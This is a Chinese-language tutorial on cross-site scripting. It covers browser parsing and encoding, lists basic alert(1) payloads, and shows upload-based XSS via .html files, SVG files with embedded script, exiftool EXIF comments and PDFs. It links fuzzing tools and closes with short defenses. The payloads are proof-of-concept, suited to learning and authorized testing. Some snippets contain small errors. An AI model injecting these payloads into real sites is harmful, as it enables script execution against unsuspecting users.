 ### CSS代码的解析
在遇到CSS代码时，浏览器不会像JavaScript代码一样去停止HTML标记的解析，相反它会继续进行HTML代码的解析，并且将CSS代码交给CSS引擎来进行处理。

### 关于解码
HTML主要是为了避免歧义所以才解码的，比如`<>`这种东西可能是标签or属性值，那么传递的时候利用编码就不会有歧义了，例如`<div>`-->`&#x003c;&#x0064;&#x0069;&#x0076;&#x003e;`or`&#60;&#100;&#105;&#118;&#62;`。  
JavaScript主要是为了防止漏洞和语法错误，一般遇到`<script>`这种东西就回进行JS编码，但是`< > ' " ( )`是不能JS编码的  
举个栗子：`<img src=# onerror=alert(1)>`，解码之后是`<img src=# onerror=\u0061\u006C\u0065\u0072\u0074(\u0031)>`，而不是全部去解码

## 实战

### 常见的基础的payload
```
<script>alert(1)</script>
<img scr=1 onerror=alert(1)>
<svg onload=alert(1)/>
<a href=javascript:alert(1)>xss</a>
and so on
```

### 一般场景
有框就插进去试试，记得F12锁定框去看看过滤了什么。

### 文件上传XSS

1. 修改文件后缀：bp抓了，上传文件的时候把后缀改成`.html`or`.htm`，然后在文件里面去插入XSS代码  
2. svg写入XSS：简单来说就是svg文件里面去嵌入XSS代码，例如
```
<svg xmlns="http://www.w3.org/2000/svg" version="1.1">
   <circle cx="100" cy="50" r="40" stroke="black" stroke-width="2" fill="red" />
   <script>alert(1)</script>
</svg>
```
3. exif写入XSS：前提需要网站解析图片的exif信息才可以成功使用此方法，`exiftool -Comment="<script>alert(1)</script> filename.png"`

### PDF-XSS
PDF编辑里面可以插入XSS代码，写进去然后保存成PDF文件，传到浏览器。但是这不是我们最终的目的，在本地弹窗的意义不大，我们需要让某个网站在线解析或者打开我们制作好的PDF文件才可以，当然防御的方法就是用户在打开PDF文件时候，强制让用户在本地下载打开。

更多方法看https://book.hacktricks.wiki/en/pentesting-web/xss-cross-site-scripting/index.html

### 工具
fuzz：https://github.com/TheKingOfDuck/easyXssPayload  
XSStrike：python xsstrike.py -u http~

## 关于防御

### 逻辑方面
+ 一般的XSS：过滤/把HTML实体化编码特殊字符:`<>"'`等
+ 文件上传XSS：检查后缀，剥离exif标签
+ PDF-XSS：强制用户必须下载文件，而不能在线阅读
